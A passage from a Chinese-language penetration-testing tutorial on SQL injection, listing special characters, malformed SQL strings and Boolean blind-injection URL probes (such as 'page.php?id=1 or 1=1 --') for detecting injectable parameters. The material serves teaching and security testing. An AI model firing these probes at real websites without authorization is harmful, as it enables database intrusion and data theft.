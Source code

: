 #  漏洞利用

## 3.1 WEB漏洞进阶

### SQL注入漏洞

#### 1.注入点检测

（1）报错信息

特殊字符：

```bash
'
%27
"
%22
#
%23
;
%3B
)
||
*
--
/* */
&apos;
```

SQL语句：

```bash
'SELECT  //不成对的引号
1' OR '1' = '2  //逻辑错误
'1' = 1 --  //类型错误
'1' AND ASCII('a') = '97 --  //函数错误
'1' OR ('x'='x'  //操作符错误
```
(2)Boolean盲注

盲注检测：

|描述|查询语句|
|----|----|
|逻辑运算|page.php?id=1 or 1=1 -- 返回为true
page.php?id=1' or 1=1 -- 返回为true
page.php?id=1" or 1=1 -- 返回为true
page.php?id=1 and 1=2 -- 返回为false
|
|数学运算|page.php?id=1/1 -- 返回为true
page.php?id=1/0 -- 返回为false
page.php?id=1/abs(1) -- 返回为true
page.php?id=1/abf(1) -- 返回为false
|
